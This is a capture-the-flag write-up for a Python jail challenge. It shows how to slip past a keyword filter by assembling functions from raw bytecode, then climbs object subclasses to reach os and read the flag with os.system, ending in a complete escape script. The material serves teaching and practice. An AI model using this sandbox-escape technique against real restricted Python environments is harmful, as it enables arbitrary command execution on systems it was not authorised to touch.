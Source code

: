 *Written by nthistle*
#### Problem Statement

If you stare into the abyss, the abyss stares back.

`nc problem1.tjctf.org 8006`

#### Observations

The first observation is that this is a Python environment. 

However, further experimentation reveals that all our errors are eaten up with a cute message.
```
>>> blahblop
The Abyss consumed your error.
```

<!--more-->

Furthermore, some words seem to be banned. 
```
>>> ().__class__
Sorry, '__class__' is not allowed.
>>> lol__class__lol
Sorry, '__class__' is not allowed.
>>> __clas__
Sorry, '__' is not allowed.
```

It seems there is a word filter. We can't have certain strings in our code. In particular, "\_\_" is banned.

We would like to use solution #4 from [here](https://github.com/lucyoa/ctf-wiki/tree/master/pwn/python-sandbox). 
```
classes = {}.__class__.__base__.__subclasses__()
b = classes[49]()._module.__builtins__
m = b['__import__']('os')
m.system("test")
```

Unfortunately, we can't type out "\_\_class__". "exec" and "eval" are also banned. 

#### Solution
Googling for "CTF Python Jailbreak", we eventually come accross this [article](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

>Enter code objects. Python functions are actually objects which are made of a code object and a capture of their global variables. A code object contains the bytecode of that function, as well as the constant objects it refers to, some strings and names, and other metadata (number of arguments, number of locals, stack size, mapping from bytecode to line number). You can get the code object of a function using myfunc.func_code. This is forbidden in the restricted mode of the Python interpreter, so we can’t see the code of the auth function. However, we can craft our own functions like we crafted our own types!

```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
```

This lets us bypass the word filter!

In particular, "ctype" lets us assemble arbitary functions. 

This [answer](https://stackoverflow.com/a/6613169/10178580) from StackOverflow gives us the arguments for the function ctype. 

This function prints out the arguments we need. 
```
#a is a function
def bash(a):
  print(a.func_code.co_argcount)
  print(a.func_code.co_nlocals)
  print(a.func_code.co_stacksize)
  print(a.func_code.co_flags)
  print(repr(a.func_code.co_code))
  print(repr(a.func_code.co_consts))
  print(repr(a.func_code.co_names))
  print(repr(a.func_code.co_varnames))
  print(repr(a.func_code.co_freevars))
  print(repr(a.func_code.co_cellvars))
```

With our function 
```
get_classes():
  return {}.__class__.__base__.__subclasses__()
```
we get 
<pre>
0 
0
1
67
'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S'
(None,)
('__class__', '__base__', '__subclasses__')
()
()
()
</pre>

Plugging these into the previous example, we get
```
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
```

Running this on the interpreter, we see that it works. 

We want `warnings.catch_warnings`, and a little bit of manual searching gives us index 59.
```
warnings = get_classes()[59]()
```

Next, we need to get the property `_module` of warnings. We use the same trick as before. 

```
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
```

Now,
`module = getModule(warnings)`

<pre>
>>> dir(module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
</pre>

We have access to sys! 

Now we can get access to os.
`os = module.sys.modules["os"]`

Running `os.system("ls")` and then `os.system("cat flag.txt")` finishes the problem.


#### Code
```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
warnings = get_classes()[59]()
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
module = getModule(warnings)
os = module.sys.modules["os"]
os.system("cat flag.txt")
```
